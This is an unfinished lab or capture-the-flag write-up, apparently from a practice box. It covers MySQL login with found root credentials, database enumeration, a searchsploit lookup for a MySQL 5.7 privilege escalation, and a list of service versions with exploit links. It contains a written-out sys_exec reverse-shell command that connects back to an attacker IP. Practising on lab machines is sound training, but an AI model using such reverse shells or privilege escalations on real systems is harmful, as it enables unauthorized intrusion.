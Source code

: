 * We see that 3306/MYSQL is running.
* Let's try our new credentials here!

### MySQL Enumeration

Authentication

```
mysql -u root -p
Enter Password: EscalateRaftHubris123
mysql>
```

* Success! Time to enumerate!

### DB Enumeration

```
show databases;
use <database>;
show tables;
describe <table_name>;

```

* I was unable to find anything useful in here
* <mark style="background-color:orange;">mysql version: 5.7.30</mark>

### Searchsploit

```
searchsploit mysql 5.7
MySQL / MariaDB / PerconaDB 5.5.x/5.6.x/5.7.x - 'root' System User Privilege Escalation | linux/local/40679.sh

```

* Locate 40679.sh

select sys\_exec('bash -c "bash -i >& /dev/tcp/192.168.49.78/8080 0>&1"');

## Exploit Research

#### What do we have to work with?

* <mark style="color:yellow;">Apache 2.4.25</mark>
  * <mark style="color:yellow;">50512.py -- RCE</mark>
  * <mark style="color:yellow;"></mark>[<mark style="color:yellow;">https://www.exploit-db.com/exploits/50512</mark>](https://www.exploit-db.com/exploits/50512)<mark style="color:yellow;"></mark>
    * <mark style="color:yellow;">This did not work.</mark>
* <mark style="color:yellow;">VSFTPD 3.0.3</mark>
* <mark style="color:yellow;">PostGreSQL 9.6.4 - 9.6.6 or 9.6.13 - 9.6.17</mark>

## This remains unfinished due to the weird privilege escalation with mysql. I kept getting a strange error after numerous attempts. Moving on.
